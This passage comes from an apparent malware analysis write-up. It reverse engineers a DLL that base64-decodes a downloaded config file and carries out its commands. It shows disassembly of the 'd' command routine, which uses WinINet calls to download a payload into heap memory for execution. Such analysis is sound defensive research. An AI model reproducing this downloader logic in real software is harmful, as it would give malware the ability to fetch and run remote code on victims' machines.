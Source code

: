 The raw content extracted from the dowloaded file `serve.html`{: .filepath} is then processed within function `0x10004123`. A quick inspection of this function suggests a kind of decoding. The replacement of some characters, such as `+` by `>` and `/` by `?` suggests a variant of base64 decode. Finally, playing with the function and some controlled input (toto debug FTW) confirms this function is a base64 decoder: 

```
.text:100046B0      push    0               ; size or null
.text:100046B2      push    eax             ; raw_content
.text:100046B3      push    [ebp+ouput]     ; output
.text:100046B6      call    Base64Decode
```

Once decoded, the config file is parsed. The most interesting commands are `d` (or `D`) anc `c` (or `C`).

### Command "d": download and execute payload

If the config file contains the command `d`, function `0x10003415` is called. This function retrieves an `ObjectName` and a `ServerName` from the parsed config, and use them in a `HTTP GET` request. It uses the same Wininet APIs already seen.
If the request is successful, it calls `HttpQueryInfoA` to obtain the length of the payload, uses this length to allocate memory on the heap, and download the payload to the allocated buffer:

```
; query
.text:10003530      lea     eax, [ebp+dwBufferLength]
.text:10003533      push    ebx             ; lpdwIndex
.text:10003534      push    eax             ; lpdwBufferLength
.text:10003535      lea     eax, [ebp+Buffer]
.text:1000353B      push    eax             ; lpBuffer
.text:1000353C      push    HTTP_QUERY_CONTENT_LENGTH ; dwInfoLevel
.text:1000353E      push    [ebp+hInternet] ; hRequest
.text:10003541      mov     [ebp+dwBufferLength], 20h
.text:10003548      call    ds:HttpQueryInfoA

; ascii to int
.text:1000354E      lea     eax, [ebp+Buffer]
.text:10003554      push    eax             ; Str
.text:10003555      call    ds:atol
.text:1000355B      mov     edi, eax

; alloc
.text:1000355D      lea     eax, [edi+1]
.text:10003560      push    eax             ; unsigned int
.text:10003561      call    ??2@YAPAXI@Z    ; operator new(uint)
.text:10003566      pop     ecx
.text:10003567      mov     [ebp+downloaded_data], eax
.text:1000356A                 pop     ecx

; download
.text:1000356B      lea     ecx, [ebp+dwNumberOfBytesRead]
.text:1000356E      push    ecx             ; lpdwNumberOfBytesRead
.text:1000356F      push    edi             ; dwNumberOfBytesToRead
.text:10003570      push    eax             ; lpBuffer
.text:10003571      push    [ebp+hInternet] ; hFile
.text:10003574      call    ds:InternetReadFile
```
